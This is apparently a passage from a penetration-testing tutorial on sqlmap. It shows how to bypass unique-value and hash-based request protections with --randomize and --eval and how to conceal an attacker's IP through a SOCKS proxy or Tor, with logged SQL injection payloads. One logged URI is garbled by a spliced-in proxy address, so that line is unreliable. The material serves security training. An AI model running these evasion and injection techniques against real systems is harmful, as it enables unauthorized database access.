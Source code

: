 ***

### Unique Value Bypass

In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF technique described above, except that there is no need to parse the web page content. So, by simply ensuring that each request has a unique value for a predefined parameter, the web application can easily prevent CSRF attempts while at the same time averting some of the automation tools. For this, the option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

***

### Calculated Parameter Bypass

Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. To bypass this, the option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

***

### IP Address Concealing

In case we want to conceal our IP address, or if a certain web application has a protection mechanism that blacklists our current IP address, we can try to use a proxy or the anonymity network Tor. A proxy can be set with the option `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`), where we should add a working proxy.
